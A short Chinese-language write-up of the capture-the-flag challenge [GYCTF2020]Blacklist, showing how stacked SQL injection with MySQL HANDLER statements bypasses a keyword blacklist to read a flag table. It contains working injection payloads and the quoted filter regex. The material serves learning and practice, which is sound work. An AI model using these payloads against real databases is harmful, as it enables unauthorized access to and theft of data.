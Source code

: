 # \[GYCTF2020]Blacklist

## \[GYCTF2020]Blacklist

## 考点

* 堆叠注入
* MySQL HANDLER 语句

## wp

过滤语句是

return preg\_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|./i",$inject);

无法使用偷天换日的方法和预编译，但是可以使用 HANDLER 语句

首先，看一下表 1';show tables;#，有两个表 FlagHere 和 words\
然后看一下字段

```
1';show columns from `FlagHere`;#
```

最后利用 HANDLER 语句读取 flag

```
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

通过HANDLER tbl\_name OPEN打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1\_name的句柄。\
通过HANDLER tbl\_name READ FIRST获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。\
通过HANDLER tbl\_name CLOSE来关闭打开的句柄。

## 小结

1. https://blog.csdn.net/JesseYoung/article/details/40785137
